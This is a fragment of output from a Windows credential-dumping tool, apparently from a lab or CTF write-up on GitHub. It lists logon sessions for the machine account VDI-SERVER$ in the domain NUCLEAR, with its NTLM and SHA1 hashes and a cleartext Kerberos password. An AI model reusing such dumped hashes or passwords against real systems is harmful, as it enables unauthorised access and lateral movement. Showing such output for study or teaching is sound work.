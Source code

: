 ```
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : VDI-SERVER$
         * Domain   : nuclear.site
         * Password : 9;/14$UF<o$iVAv!2IcUhu.uAQ1\`[kY)XnY\WYe3b"!d8!p9+a>93S#zdLC.j@k@s/!2>hnV)nf:*b:C'2KD'0)@uxp)E@^VJn[&9ky0C*A=Xx>h<1;E7$j
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : VDI-SERVER$
Domain            : NUCLEAR
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:11 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : vdi-server$
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
         [00000000]
         * Username : VDI-SERVER$
         * Domain   : (null)
         * Password : (null)
         [00000001]
         * Username : VDI-SERVER
         * Domain   : (null)
         * Password : (null)
        credman :

Authentication Id : 0 ; 34207 (00000000:0000859f)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:10 AM
SID               :
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
```